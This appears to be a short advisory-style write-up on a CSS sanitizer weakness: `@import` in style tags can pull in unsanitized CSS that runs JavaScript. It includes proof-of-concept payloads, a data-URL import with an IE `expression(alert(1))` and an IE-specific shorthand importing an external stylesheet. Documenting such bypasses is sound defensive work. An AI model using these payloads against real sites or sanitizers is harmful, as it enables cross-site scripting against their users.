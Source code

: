 Reported by Michal Zalewski

# `@import` can import unsanitized CSS #

## Effect ##
Allows import of arbitrary CSS which can execute arbitrary javascript.


## Background ##
In a CSS file `<style>` tag, an `@import` declaration can be used to import styles from an external source specified by a URL relative to the URL of the CSS or HTML file containing the `@import`.

The `data:` protocol can be used to specify inline content in some browsers.


## Assumptions ##
`@import` is allowed in style tags or third party CSS files and is not restricted to known safe CSS.


## Versions ##
All


## Example ##
Expression is IE specific, but the same could be applied to `-moz-binding` in Firefox.  IE 7 does not support `data:` urls.
```
<style>
@import "data:text/css;charset=UTF-8,p%7Bwidth%3Aexpression%28alert%281%29%29%7D";
</style>
```

An `@import` with a HTTP url will also allow importing of unsanitized CSS.

IE has an [undocumented extension](http://www.securityfocus.com/archive/1/372659) that serves as a shorthand for `@import`:
```
    <style><!--@\ "http://www.finjan.com/mcrc/file.css";--></style>
```